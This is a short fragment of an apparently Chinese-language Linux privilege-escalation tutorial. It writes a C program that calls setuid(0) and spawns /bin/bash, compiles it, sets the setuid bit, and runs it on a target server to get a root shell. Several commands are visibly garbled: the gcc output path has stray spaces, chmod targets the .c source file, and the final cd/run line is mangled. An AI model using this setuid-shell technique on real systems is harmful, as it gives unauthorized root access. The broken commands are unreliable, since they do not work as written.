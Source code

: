 **然后在/tmp/test/中。新建一个c文件。**

```text
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h> int main() { setuid(0); system("/bin/bash"); return 0; }
```

**也可以**

echo ‘int main() { setgid(0); setuid(0); system(“/bin/bash”); return 0; }’ > /tmp/test/suid-shell.c

**编译：**

gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel

**赋权：**

chmod + s /tmp/test/suid-shell.c

**好的，我们回到要提权的服务器上**



![img](./assets/v2-ffb528cf531cc306e9f0b814c1b3a14b_720w.webp)



cd / tmp./suid-shell

**可以看到是ROOT权限了**
